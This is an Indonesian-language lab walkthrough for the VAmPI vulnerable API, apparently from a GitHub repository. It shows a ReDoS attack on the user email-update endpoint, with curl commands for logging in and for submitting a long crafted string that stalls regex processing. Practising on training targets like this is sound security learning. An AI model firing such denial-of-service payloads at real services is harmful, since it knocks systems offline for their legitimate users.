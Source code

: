 # Regular expression Denial of Service - ReDoS
Regular expression Denial of Service (ReDoS) adalah serangan Denial of Service, yang mengeksploitasi sebagian besar implementasi Regular Expression yang dapat mencapai situasi ekstrem dan menyebabkannya bekerja sangat lambat (secara eksponensial terkait dengan ukuran input). Penyerang dapat menyebabkan program yang menggunakan Regular Expression (Regex) memasuki situasi ekstrem ini dan kemudian hang dalam waktu yang sangat lama. Celah keamanan ini berada di endpoint `/users/v1/{username}/email`. Untuk mengakses endpoint ini kita harus login tersebut dengan akun baru yang berhasil kita buat sebelumnya

```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%202.JPG)

- Sekarang kita coba ubah email akun user `name1` dengan inputan string yang sangat panjang misalnya `aaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/email -d '{"email":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/regex%20dos/regex%20dos%204.JPG)

- Dari percobaan diatas terlihat bahwa semakin panjang inputan string yang berikan, server akan semakin lama untuk memprosesnya. Hal ini dapat menyebabkan layanan API tidak dapat diakses dalam kurun waktu tertentu